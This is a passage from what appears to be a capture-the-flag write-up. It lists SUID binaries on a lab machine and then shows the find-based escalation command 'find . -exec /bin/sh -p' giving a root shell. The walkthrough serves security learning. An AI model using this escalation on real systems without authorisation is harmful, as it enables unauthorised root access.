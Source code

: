 ```
-rwsr-xr-x   /usr/bin/newgidmap
-r-sr-xr-x   /usr/bin/find
-rwsr-sr-x   /usr/bin/at
-rwsr-xr-x   /usr/bin/chsh
-rwsr-xr-x   /usr/bin/chfn
-rwsr-xr-x   /usr/bin/passwd
-rwsr-xr-x   /usr/bin/newgrp
-rwsr-xr-x   /usr/bin/sudo
-rwsr-xr-x   /usr/bin/pkexec
-rwsr-xr-x   /usr/bin/gpasswd
-rwsr-xr-x   /usr/bin/newuidmap
```

<br>

## Root

The **find** command sticks out and we should be able to escalate our privileges with that. Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/find/) shows us the following for the **find** command:

<br>

![](images/boiler9.png)

<br>

Let's run the command:

`find . -exec /bin/sh -p \; -quit`

```
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
```
